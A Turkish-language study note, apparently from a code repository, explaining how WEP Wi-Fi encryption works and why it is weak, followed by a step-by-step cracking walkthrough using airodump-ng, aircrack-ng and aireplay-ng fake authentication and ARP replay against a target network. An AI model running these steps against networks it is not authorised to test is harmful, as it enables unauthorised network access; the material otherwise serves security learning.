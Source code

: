 - Wifi ağları **WEP** ve **WPA/WPA2** ile şifreleme algoritmaları ile korunur.
---
## 🔐 WEP (Wired Equivalent Privacy) Nedir?

WEP, kablosuz ağları korumak için geliştirilen **eski** bir şifreleme sistemidir. Amaç: 📡 Wi-Fi'yi, kablolu ağlar kadar güvenli yapmak.

---

### 🧠 Nasıl Çalışır?

#### 1. 🔒 Şifreleme Türü: **RC4**
- WEP, verileri **RC4** adlı simetrik bir algoritmayla şifreler.

#### 2. 🧩 Anahtar Yapısı
- İki tür anahtar vardır:
  - **64 bit** (40 bit gizli + 24 bit IV)
  - **128 bit** (104 bit gizli + 24 bit IV)
- **IV (Initialization Vector)**: 📦 Her veri paketine özel küçük bir sayı (24 bit)
- **IV + gizli anahtar = RC4 anahtarı**

#### 3. 🔁 Şifreleme Süreci
1. Veri alınır. 📄  
2. Sonuna hata kontrol için bir şey eklenir: **ICV (CRC-32)** ✅  
3. IV + anahtar → RC4 → 🔐 Şifreleme akışı oluşturur  
4. Veri + ICV, bu akışla **XOR**'lanır  
5. Sonuç = Şifreli veri + IV → 📡 Gönderilir

#### 4. 📥 Alıcı Ne Yapar?
1. IV'yi alır + gizli anahtarla RC4 akışı oluşturur  
2. XOR işlemiyle şifreyi çözer 🔓  
3. ICV kontrolüyle verinin bozulup bozulmadığını anlar ✅

---

### ⚠️ WEP Neden Güvensiz?

| Sorun | Açıklama |
|------|----------|
| 🔁 IV çok kısa | 24 bit → sık tekrar eder → kırılabilir |
| 🎲 IV rastgele değil | Sıralı olabilir → tahmin edilebilir |
| 🧨 RC4 kötü kullanılır | Zayıf anahtar oluşturur |
| 🧪 Kolay kırılır | Paketler toplanır → şifre dakikalar içinde çözülür (örn: aircrack-ng) |

---

### ✅ Ne Kullanmalı?

WEP yerine:  
- **🔐 WPA**  
- **🛡️ WPA2**  
- **🧬 WPA3** gibi daha güvenli protokoller kullanın.

---

## 🧨 WEP Kırma

### 1. 📡 Modemi Dinleme
- `airodump-ng` ile hedef ağı dinle:
  ```bash
  airodump-ng (interface)
  ```
- Ekrandaki hedef modem bilgilerini (BSSID ve kanal) not al.

### 2. 📥 Paket Toplama ve Şifreyi Kırma
- Dinleme sırasında `.cap` uzantılı bir dosya oluşur.
- Bu dosyayla şu komutu çalıştır:
  ```bash
  aircrack-ng dosya.cap
  ```
- 🗝️ Şifre doğrudan terminalde görünür!

⚠️ **Not:** Bu işlemin çalışması için ağda **aktif trafik** olması gerekir.

---

## 🕵️‍♂️ Fake Authentication (Sahte Kimlik Doğrulama)

Ağda yeterli trafik yoksa kendin oluşturabilirsin. İşte adımlar:

### 🔐 1. Sahte Bağlantı Kurma
```bash
aireplay-ng --fakeauth 0 -a (BSSID) -h (Wi-Fi kart MAC)
```
- 📡 Modeme sahte bir şekilde bağlanır.
- MAC adresini öğrenmek için:
  ```bash
  ip addr
  ```

### 🔁 2. ARP Replay ile Trafik Oluşturma
```bash
aireplay-ng --arpreplay -b (BSSID) -h (Wi-Fi kart MAC)
```
- 💣 Modemde **sahte veri trafiği** oluşturur.
- Bu sayede şifreleme kırılabilir hale gelir.
